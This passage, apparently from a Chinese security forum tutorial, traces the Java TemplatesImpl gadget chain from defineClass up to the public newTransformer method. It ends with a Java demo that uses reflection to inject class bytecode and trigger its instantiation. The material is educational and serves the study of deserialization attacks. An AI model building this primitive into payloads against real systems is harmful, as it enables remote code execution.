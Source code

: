 ![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-33d0d25ccb4869399c0bc33e32a07d240f134082.png)​

‍

### `TemplatesImpl#defineTransletClasses()`​​

但是在实际场景中，因为defineClass方法作用域却是不开放的(就是并不是public方法，所以需要找谁去调用了他)，所以我们很很难直接利用到它所以我们要去找谁调用了这个`defineClass`​函数 ，于是找到了`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl#defineTransletClasses()`​

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-b670648641342184a7ff88df6ab4985d7546f484.png)​

### `TemplatesImpl#getTransletInstance()`​​

再往上找看哪里是`public`​属性的方法调用了他，并且在上述方法中是对字节码进行了加载，并没有初始化，所以要找到链子的某个地方进行了初始化并且最终的入口方法是public方法，最后作者在这里找到了

`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl#getTransletInstance()`​

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-e6b6b67597a0b4941b5678d4e336d592a1ed3f7b.png)​

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-3a7a11a5a520f7a9ba6441339ced87b606ecde6c.png)​

可以看到在加载了`_class`​属性后进行了`.newInstance()`​初始化，完全符合我们的要求

但是他仍然是私有方法

### `TemplatesImpl#newTransformer()`​​

所以继续往上找于是找到了`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl#newTransformer()`​

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-67eeee885f3af86f7b9b773107588255cc4263e5.png)​

‍

所以我们先来写一个demo(因为`_tfactory`​在反序列化的时候会自动实例化赋值，但是直接调用并不会所以这里写demo的时候需要自行加上才能执行成功)

```java
   TemplatesImpl templates = new TemplatesImpl();
        Class tc =  templates.getClass();
        Field bytecodesField = tc.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("E:\\Java_project\\Serialization_Learing\\target\\classes\\Test.class"));
        byte[][] codes = {code};

        bytecodesField.set(templates, codes);
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "test");
        Field _tfField = tc.getDeclaredField("_tfactory");
        _tfField.setAccessible(true);
        _tfField.set(templates, new TransformerFactoryImpl());
        templates.newTransformer();
```
